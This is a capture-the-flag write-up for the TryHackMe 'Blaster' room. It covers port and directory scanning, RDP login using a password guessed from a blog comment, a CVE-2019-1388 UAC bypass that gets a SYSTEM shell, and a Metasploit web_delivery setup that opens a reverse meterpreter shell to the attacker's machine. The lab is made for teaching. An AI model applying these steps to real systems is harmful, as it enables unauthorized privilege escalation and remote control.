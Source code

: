 # Blaster
> 4lch3my | June 26, 2023
-------------------
#### A blast from the past!
#### [Room Link](https://tryhackme.com/room/blaster)

## Basic Enumeration 
  Deploy the machine with the Start Machine button, also either deploy your [Attack Box](https://tryhackme.com/access) OR Connect to [OpenVPN](https://tryhackme.com/access) and deploy your personal KALI machine.
<br>

Now is where the basics of recon comes into play. To start, I use [nmap] which is default option on the personal Kali install I have. We start with a basic command
  `nmap -sC -sV -A MACHINE_IP `
The -sC flag runs scripts against open ports as well to determine if there are external/common vulnerabilities that we can use outright. The -sV probes all open ports it finds to determine if we can get the service/version information. -A outputs in agressive mode, so we can follow along with the commands and enumeration.

```
Starting Nmap 7.60 ( https://nmap.org ) at 2023-06-25 22:55 BST
Nmap scan report for ip-MACHINE_IP.eu-west-1.compute.internal (10.10.143.114)
Host is up (0.00030s latency).
Not shown: 998 filtered ports
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=RetroWeb
| Not valid before: 2023-06-24T21:50:39
|_Not valid after:  2023-12-24T21:50:39
|_ssl-date: 2023-06-25T21:55:42+00:00; 0s from scanner time.
MAC Address: 02:AD:6F:28:86:81 (Unknown)
...
Network Distance: 1 hop
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Nmap done: 1 IP address (1 host up) scanned in 28.98 seconds
```

#### Web Enumeration

On `port 80` we have a webserver running. Before we visit it, let us run a good old [GoBuster](https://www.kali.org/tools/gobuster/) website scan for login pages:
`gobuster dir -u http://10.10.238.240/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`

```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.143.114/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2023/06/25 23:04:02 Starting gobuster
===============================================================
/retro (Status: 301)
/Retro (Status: 301)
===============================================================
2023/06/25 23:04:30 Finished
===============================================================
```

Time to look at both of these pages. After a few minutes of looking at both of them I can safely say, they are an exact copy of each other, so I will be focusing on `/retro` on the rest of the writeup. The webpage presented is as seen below, a blog style website.

![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20Blaster/images/retro.PNG?raw=true)

It seems to be written in cronological order, so let's scroll to the bottom of the main page, and see who the author might be.

![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20Blaster/images/wade.PNG?raw=true)

Crawling through the posts, we can find one called `Ready Player One` where he is reffering to an issue with login. 

![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20Blaster/images/palyer_one.PNG?raw=true)

Clicking the post and reading the comment section, we get a hint at what migth the users password be:

![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20Blaster/images/maybe_password.PNG?raw=true)

With this info we can try to log in to the machine. Open RDP or Remmina on your host machine, use the provided settings to access it:

![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20Blaster/images/remmina.PNG?raw=true)

And we have access! Read the user.txt on the Desktop for the first flag!

## Machine Enumeration 

We see another file on the desktop named `hhupd`. After  quick Google we can see a CVE is usually tested with this file: `CVE-2019-1388`. `CVE-2019-1388` exploits a part of the UAC `Windows Certificate Dialog` popup when a user has no access to an administrator file without a password. 
This is one of the easiest bypasses out there, so time to run over this as fast as possible.

On the Host machine, double-click/run the `hhupd` application. You will get prompted to provide an administrator password. 

![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20Blaster/images/admin.PNG?raw=true)

As we do not have one, we can try to exploit this. Click the `Show more details` option, then the `Show information about the publisher's certificate`.

![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20Blaster/images/certification.PNG?raw=true)

After this, click on the `Issued by` URL link, it may seem nothin is happening at first, but it will prompt a browser window to open (Internet Explorer in our case) in the background. Close the `Certification popup` (top right X), close the `User Account Control` popup (top right X), and the mentioned Internet Explorer Windows show be visible.

![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20Blaster/images/ie.PNG?raw=true)

Don't worry if you get the error: `"This page can't be displayed"`, as the machine has no internet access, this will never load, so you can ignore it!
In the next step, we need to "save the webpage to our machine". Hit `Control+S` to get the following prompt:

![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20Blaster/images/ie_2.PNG?raw=true)

Click `OK`, and save the file to the location: `C:\WINDOWS\system32\cmd.exe`

![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20Blaster/images/explorer.PNG?raw=true)

Click `SAVE` and you will notice a CMD prompt windows appear. After writing the command `whoami`, we can see we are `nt authority\system` also knwon as `root`. 
To grab the admin flag, we can visit: `C:\Users\Administrator\Desktop` and get the flag

![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20Blaster/images/root_flag.PNG?raw=true)

## Reverse shell

Time to get a reverse shell from outside of this machine.
Start metasploit with the `msfconsole`. After loading in, we can select our exploit with: `exploit/multi/script/web_delivery`.
To see all target options, we can use the command `show targets`, then use `set target PSH` to select powershell for our use.
Then we can set the `lhost` to our exploiting machine and `lport` to something what we like, I usually use `1337` to be easily visible. 
Then we can set our payload to `set payload windows/meterpreter/reverse_http` to get a reverse http shell. And finally we can run our exploit against the target machine with `run -j`.
You will get a command specially crafted for you from the console, something like this:

![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20Blaster/images/metasploit.PNG?raw=true)

Copy and Paste this to the Windows machine CMD terminal what we opened in the previous task. After you execute it, you will see a session created in your `metasploit console`. To make sure it worked, you can use the `sessions` command to list sessions. To use the session, use the command: `sessions SESSION_NUMBER`.

And there we go. We have a full terminal with `elevated priveledges`.

#### Thank you for checking out my writeup about the THM room: Blaster! If you are interested in other writeup's of mine or interested in some of my coding work, please feel free to look around my GitHub page! Happy hacking! - 4lch3my